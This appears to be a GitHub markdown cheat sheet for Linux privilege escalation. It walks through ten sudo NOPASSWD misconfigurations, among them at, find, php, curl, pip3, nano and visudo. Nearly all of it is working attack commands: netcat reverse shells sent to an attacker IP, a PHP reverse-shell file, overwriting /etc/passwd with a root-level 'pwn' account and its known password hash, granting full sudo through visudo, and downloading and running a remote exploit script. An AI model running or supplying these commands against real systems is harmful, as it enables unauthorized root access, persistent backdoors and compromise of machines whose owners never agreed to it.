 # Linux Privilege Escalation

```NOTE: replace <IP> with attacker's IP (Your IP address)```

## 1. /usr/bin/at

```
ALL=(root) NOPASSWD: /usr/bin/at
```
 **Attacker's machine** 
  
 - start listner on port 4444 using netcat 
 ```
 nc -nvlp 4444
 ```
  
 **Victim's machine** 
  
 - create a bash file with this command
 ```
 echo "nc <IP> 4444 -e /bin/bash" > exp.sh
 ``` 
 - run this command and wait for one minute
 ```
 sudo at -f exp.sh now + 1 minutes
 ```
  
## 2. /usr/bin/find

```
ALL=(root) NOPASSWD: /usr/bin/find
```
 **Victim's machine**
  
 - create a bash file with this command
 ```
 echo "/bin/bash" > find.sh
 ```
 - pop root shell with this command
 ```
 sudo find /etc/passwd -type f -name "passwd" -exec bash find.sh "{}" \;
 ```
  
## 3. /usr/bin/php

```
ALL=(root) NOPASSWD: /usr/bin/php
```
 **Attacker's machine**
  
 - start listner on port 1234 using netcat 
 ```
 nc -nvlp 1234
 ```
  
 **Victim's machine**
  
 - run this command to create a php file
 ```
 echo "<?php shell_exec('nc <IP> 1234 -e /bin/sh');?>" > shell.php
 ```
 - pop up root shell
 ```
 sudo php shell.php
 ```

## 4. /usr/bin/curl

```
ALL=(root) NOPASSWD: /usr/bin/curl
```

 **Attacker's machine**
  
 - Copy /etc/passwd from victim's machine and save it on attacker's machine as pass.txt
 - add this line at the end of the file (pass.txt)
 ```
 pwn:$1$pwn$AxNbnbaujRUXRur/DewJ8/:0:0:/root/root:/bin/bash
 ```
 - start http server using python
 ```
 python -m SimpleHTTPServer 8080
 ```
  
  
 **Victim's machine**
  
 - run this command
 ```
 sudo curl http://<IP>:8080/pass.txt -o /etc/passwd
 ```
 - change user to **pwn** using password **pwn** 
 ```
 su pwn
 ```
 
## 5. /usr/bin/pip3 OR /usr/bin/pip

```
ALL=(root) NOPASSWD: /usr/bin/pip3
```
 **Attacker's machine**
 
 - start listner on port 4444 using netcat 
 ```
 nc -nvlp 4444
 ```
 
 **Victim's machine**
 
 - Download our modified exploit using curl 
 ```
 curl https://raw.githubusercontent.com/theamanrawat/privilege-escalation/master/Linux/pip_exp.py?token=AISTJLQB7CDRPQS3OWODDE27E23S2 -o exploit.py
 ```
 - run this exploit and wait for few seconds
 ```
 python3 exploit.py <IP> 4444 /usr/bin/pip3
 ```
 
## 6. /usr/bin/nano
 
```
ALL=(root) NOPASSWD: /usr/bin/nano
```
 **Victim's machine**
  
 - edit /etc/passwd file 
 ```
 sudo nano /etc/passwd
 ```
 - add this line at the end of the file and save it
 ```
 pwn:$1$pwn$AxNbnbaujRUXRur/DewJ8/:0:0:/root/root:/bin/bash
 ```
 - change user to **pwn** using password **pwn**
 ```
 su pwn
 ```
  
## 7. /usr/sbin/visudo
  
```
ALL=(root) NOPASSWD: /usr/sbin/visudo
```
 **Victim's machine**
   
 - run this command to get current user
 ```
 whoami
 ```
 - edit the permission for current user using this command
 ```
 sudo visudo
 ```
 - add # in start of name which you got from whoami (in first step) and add this line (replace <USER> with current user)
 ```
 <USER> ALL=(root) NOPASSWD: ALL
 ```
 - save it and run this command to pop up root shell
 ```
 sudo /bin/sh
 ```
  
## 8. /usr/bin/less
  
```
ALL=(root) NOPASSWD: /usr/bin/less
```
 **Victim's machine**
  
 - run this command to open /etc/passwd
 ```
 sudo less /etc/passwd
 ```
 - pop up root shell using this command
 ```
 ! /bin/sh
 ```
  
## 9. /usr/bin/ftp
  
```
ALL=(root) NOPASSWD: /usr/bin/ftp
```
 **Victim's machine**
  
 - open FTP shell using this command
 ```
 sudo ftp
 ```
 - pop root shell using this command
 ```
 ! /bin/sh
 ```
  
## 10. /usr/bin/man

```
ALL=(root) NOPASSWD: /usr/bin/man
```

 same as [/usr/bin/less]()
 
  
